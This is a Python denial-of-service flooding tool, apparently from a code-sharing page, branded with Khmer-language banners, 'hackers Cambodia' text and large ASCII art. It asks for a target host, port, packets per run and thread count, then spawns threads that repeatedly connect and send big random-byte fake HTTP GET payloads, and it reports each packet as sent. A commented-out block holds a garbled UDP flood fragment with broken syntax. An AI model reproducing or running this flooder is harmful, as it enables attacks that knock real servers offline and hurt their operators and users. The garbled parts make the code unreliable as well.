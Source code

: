 #សួស្តីអ្នកទាំងអស់គ្នា
"""import socket, threading, os, sys, random, ctypes, time

delay=200000000000000
psc=50000000000000000
ux=2000000
port = 1000000
sent = 00000000
id=100000ឪឪ
svc=[]



sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
if os.name=='nt':
    os.system('color b')
    os.system('title Ẹras v7')
    ctypes.windll.kernel32.SetConsoleTitleW('Ẹras v7')
else:
    os.system('setterm -background white -foreground white -store')

def cls():
    os.system('cls' if os.name=='nt' else 'clear')
cls()

def type(text):
  words = text
  for char in words:
    time.sleep(0.08)
    sys.stdout.write(char)
    sys.stdout.flush()
    
/*
 * 
 * 
 *Free code 
print("ព្រះយើងគឺជាមាតាបិតា")
print(" យើងជាមនុស្សយើងត្រូវដឹងអំពីសេចក**ីល្អ។")
input("សូមរងចាំ......ចុចវាដើម្បីដំណើរការ")
print("👩‍💻🌏🪐hackers Cambodia🌹")
print("ខ្ញុំជាកូនល្អសម្រាប់មាតាបិតា")
type("││ {====>ddos [ក្រុមយើងមានម៉ាជិត៣អ្នក] |: target ip")
print()
ip = input("││ :")
ipp=ip
target=ip
  * 
  * 
 *  
 
"""

import socket
import time
import os
import random

from threading import Thread

os.system("clear")

if not __name__ == "__main__":
    exit()
      
class ConsoleColors:
    HEADER = '\066[10m'
    OKBLUE = '\066[10mm'
    OKGREEN = '\066[10m'
    WARNING = '\066[10m'
    FAIL = '\066[m'
    BOLD = '\066[1m'
    
print(ConsoleColors.BOLD + ConsoleColors.WARNING + '''
            
            
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⠟⠛⠛⠉⣉⣉⣉⣉⣉⣉⣉⡩⠙⠛⠻⠿⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠀⣿⡿⠟⢋⣡⣤⣶⣶⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣶⣶⣤⣄⣉⠛⠿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⠋⣡⣴⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣶⣄⡉⠻⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠟⣁⣴⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⣄⠙⠿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⠋⣠⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿ Cambodia​ ⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⠟⢡⣾⣿⣿⣿⣿⡿⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⢿⣿⣿⣿⣿⣿⣆⠙⢿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⡿⠃⣴⣿⣿⣿⡿⠛⠁⣠⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣦⠈⠙⠿⣿⣿⣿⣷⡀⠻⣿⣿⣿⣿⣿
⣿⣿⣿⡿⢁⣾⣿⠟⢁⡾⠁⢀⢴⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠿⠿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⡀⡀⠹⣆⠙⣿⣿⡄⠹⣿⣿⣿⣿
⣿⣿⡿⢁⣾⡿⡏⠀⣼⣁⡴⢫⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣏⠀⣿⡆⠀⣻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡏⢳⣄⣹⡀⠘⡿⣿  ⣿⣿⣿⣿
⣿⣿⠁⣾⡟⢹⡇⢠⠟⠉⣠⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠟⣡⣴⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣦⡈⠙⢇⠀⣿⠹⣿⡀⢻⣿⣿
⣿⡇⢸⣿⠂⢸⡇⠀⣠⡞⣻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠶⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡛⣦⡀⠀⣿⠀⢿⣧⠀⣿⣿
⢿⠀⣾⣿⠀⢸⣧⠞⠁⣰⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣀⣠⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡈⠙⢦⣿⠀⢸⣿⡄⢸⣿
⡇⢠⣿⢻⡄⠘⠁⢀⡴⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣄⠀⠋⠀⣶⢻⡇⠀⣿
⡁⢸⡏⠘⣇⠀⢰⡟⢱⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠟⣿⣬⡉⣉⣿⡿⠿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠹⣦⠀⢠⡏⢘⣿⠀⣿
⠇⢸⣏⠀⢹⣆⠟⠀⣸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⠟⠛⠛⠉⠀⢰⣿⣟⡅⣝⣿⣿⠀⠈⠛⠻⠿⠿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠀⠘⣇⣾⠁⢸⣿⠀⣿
⠀⢸⣿⡄⠈⣿⠀⢀⣏⣿⣿⣿⣿⣿⣿⣿⣿⣿⡟⠀⠀⠀⠀⠀⠀⢺⣿⣿⡇⢻⣿⣿⠀⠀⠀⠀⠀⠀⠉⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡆⠀⢹⠏⠀⣾⣿⠀⣿
⡇⠘⣿⢷⡀⠈⠀⣼⠏⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⢸⣿⣿⠀⠸⣿⡿⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⠇⢿⡀⠘⠀⣼⢿⡇⠀⣿
⣿⠀⢿⡈⠻⣆⠀⣿⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⠀⠀⠀⠀⠀⠀⠀⠀⢻⣿⠀⠀⣿⠃⠀⠀⠀.  ⠀⠈⢐⣿⣿⣿⣿⣿⣿⣿⠀⢸⡇⢠⡾⠋⣸⠃⢸⣿⣿
⣿⡇⢸⣧⠀⠈⢷⡏⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠻⠀⠀⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⣿⣿⣿⣿⣿⡏⠀⢘⣷⠋⠀⣰⡟⠀⣿⣿
⣿⣿⡀⢻⣧⡀⠀⠙⠀⠐⣧⠹⣿⣿⣿⣿⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢿⣿⣿⣿⣿⣿⢱⡇⠀⠜⠁⢀⣰⣿⠁⣸⣿⣿
⣿⣿⣷⡈⢿⡙⠳⣤⣀⠀⢿⡀⠹⣿⣿⣿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⡿⠀⢾⠃⢀⣠⠶⠋⣽⠃⣰⣿⣿⣿
⣿⣿⣿⣷⡈⢷⣄⠀⠉⠛⢾⣇⠀⠹⣞⢿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⡿⠁⢠⣿⠞⠋⠁⢀⣾⠋⣰⣿⣿⣿⣿
⣿⣿⣿⣿⣷⡀⠻⣷⡦⣀⡀⠈⠃⠀⠙⣆⠉⠂⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢻⡞⠁⠀⠉⠀⣀⡤⣶⡿⠁⣰⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣆⠘⢿⣌⠙⠳⠶⠦⣤⣼⣷⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⣯⣤⣴⠶⠶⠛⢉⣾⠏⢀⣾⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣷⣄⠙⢿⣦⣤⣀⣀⣀⣀⣠⣤⣤⠆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠠⣦⣠⣤⣀⣀⣀⣀⣠⣤⣾⠟⢁⣴⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⣤⡉⠻⣦⣉⠙⠛⠉⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠙⠛⢉⣩⠾⠋⣠⣶⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣦⣄⠉⠻⢶⣶⣶⣶⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣶⣶⣶⣶⠞⠋⢁⣤⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣶⣤⣈⡙⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠟⠋⣉⣠⣴⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣶⣶⣤⣤⣀⣀⣀⣀⣀⣀⣀⣀⣀⣠⣤⣴⣶⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
                        🙏ខ្ញុំ​ស្រលាញ់​ប្រទេស​កម្ពុជា🙏
             ''')
    
def getport():
    try:
        p = int(input(ConsoleColors.BOLD + ConsoleColors.OKGREEN + "Port:\r\n"))
        return p
    except ValueError:
        print(ConsoleColors.BOLD + ConsoleColors.WARNING + "ERROR Port must be a number, Set Port to default " + ConsoleColors.OKGREEN + "80")
        return 80

host = input(ConsoleColors.BOLD + ConsoleColors.OKBLUE + "ផ្ទះ​:\r\n")
port = getport()
speedPerRun = int(input(ConsoleColors.BOLD + ConsoleColors.HEADER + "Hits Per Run:\r\n"))
threads = int(input(ConsoleColors.BOLD + ConsoleColors.WARNING + "Thread Count:\r\n"))

ip = socket.gethostbyname(host)

bytesToSend = random._urandom(24599)

i = 0;



class Count:
    packetCounter = 0 

def goForDosThatThing():
    try:
        while True:
            dosSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            try:
                dosSocket.connect((ip, port))
                for i in range(speedPerRun):
                    try:
                        dosSocket.send(str.encode("GET ") + bytesToSend + str.encode(" HTTP/1.1 \r\n"))
                        dosSocket.sendto(str.encode("GET ") + bytesToSend + str.encode(" HTTP/1.1 \r\n"), (ip, port))
                        print(ConsoleColors.BOLD + ConsoleColors.OKGREEN + "-----< PACKET " + ConsoleColors.FAIL + str(Count.packetCounter) + ConsoleColors.OKGREEN + " SUCCESSFUL SENT AT: " + ConsoleColors.FAIL + time.strftime("%d-%m-%Y %H:%M:%S", time.gmtime()) + ConsoleColors.OKGREEN + " >-----")
                        Count.packetCounter = Count.packetCounter + 1
                    except socket.error:
                        print(ConsoleColors.WARNING + "ERROR, Maybe the host is down?!?!")
                    except KeyboardInterrupt:
                        print(ConsoleColors.BOLD + ConsoleColors.FAIL + "\r\n[-] Canceled by user")
            except socket.error:
                print(ConsoleColors.WARNING + "ERROR, Maybe the host is down?!?!")
            except KeyboardInterrupt:
                print(ConsoleColors.BOLD + ConsoleColors.FAIL + "\r\n[-] Canceled by user")
            dosSocket.close()
    except KeyboardInterrupt:
        print(ConsoleColors.BOLD + ConsoleColors.FAIL + "\r\n[-] Canceled by user")
try:
        
    print(ConsoleColors.BOLD + ConsoleColors.OKBLUE + '''
                                                          
        
⣿⡿⠋⠉⠀⠀⠈⢉⡛⢿⣿⣿⣿⣿⣿⣿⣿⣿⡿⢛⡉⠀⠀⠀⠀⠉⠻⣿⣿:
⣿⡟⢀⣀⣀⣀⡀⠀⠀⠈⠙⢿⣿⣿⣿⣿⣿⣿⡿⠋⠁⠀⠀⢀⣀⣀⣀⣀⠙⣿
⣿⣿⣿⣿⣿⣿⣿⣷⣦⣀⠀⢀⣹⣿⣿⣿⣿⣏⠀⠀⣀⣴⣾⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⠿⠛⢛⣻⡛⠿⢷⡀⢻⣿⣿⣿⣿⡟⢠⡾⠟⢛⣟⣛⡛⠿⣿⣿⣿⣿
⣯⡻⠿⠃⡀⠁⠀⠀⠀⠈⠀⠹⣾⢹⣿⣿⡏⣷⡇⠀⠁⠀⠀⠀⠈⢑⠘⠿⢟⣿
⣏⣤⣶⣦⣤⣉⣉⣰⣈⣤⣴⣾⡟⢸⣿⣿⡇⢻⣷⣤⣤⣀⣆⣀⣉⣥⣴⣶⣤⣹
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠁⢸⣿⣿⡇⠈⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠟⣡⡄⣸⣿⣿⣧⢠⣌⢻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣏⠻⢿⣿⣿⠿⠟⢛⣡⣟⣾⣿⡇⣿⣿⣿⣿⢸⣿⣧⣻⣌⡛⠿⠿⣿⣿⠿⠟⣿
⣿⡄⠰⡄⠐⢶⣿⣿⣿⣿⣿⣭⡱⠬⣉⣉⠡⢎⣭⣿⣿⣿⣿⣿⡶⠂⢠⠆⢠⣿
⣿⣿⡄⠹⣆⠀⠹⠿⠿⠿⠿⠋⠀⠀⣠⣄⠀⠀⠙⠿⠿⠿⠿⠏⠀⣠⠏⢠⣿⣿
⣿⣿⣿⣄⠘⢧⣄⣀⣀⣀⣀⠀⠀⠼⠿⠿⠦⠀⠀⣀⣀⣀⣀⣠⡼⠋⣠⣿⣿⣿
⣿⣿⣿⣿⣦⠑⣯⣛⣿⣿⣿⣷⣶⣶⣶⣶⣶⣶⣾⣿⣿⣿⣛⣵⢊⣴⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣷⣌⢿⣿⣿⣿⣿⣿⣍⠉⠉⣩⣿⣿⣿⣿⣿⡿⣣⣾⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣷⣿⣿⣿⣿⣿⡿⠀⠀⢿⣿⣿⣿⣿⣿⣾⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣧⠀⠀⣼⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡀⢀⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
              វាយប្រហារ​
   ''')
    print(ConsoleColors.BOLD + ConsoleColors.OKGREEN + "LOADING >> [                    ] 0% ")
    time.sleep(1)
    print(ConsoleColors.BOLD + ConsoleColors.OKGREEN + "LOADING >> [=====    🇰🇭           ] 25%")
    time.sleep(1)
    print(ConsoleColors.BOLD + ConsoleColors.WARNING + "LOADING >> [==========     🇰🇭     ] 50%")
    time.sleep(1)
    print(ConsoleColors.BOLD + ConsoleColors.WARNING + "LOADING >> [=============== 🇰🇭     ] 75%")
    time.sleep(1)
    print(ConsoleColors.BOLD + ConsoleColors.FAIL + "LOADING >> [====================] 100%")
    
    for i in range(threads):
        try:
            t = Thread(target=goForDosThatThing)
            t.start()
        except KeyboardInterrupt:
            print(ConsoleColors.BOLD + ConsoleColors.FAIL + "\r\n[-] Canceled by user")    
except KeyboardInterrupt:
    print(ConsoleColors.BOLD + ConsoleColors.FAIL + "\r\n[-] Canceled by user")
    
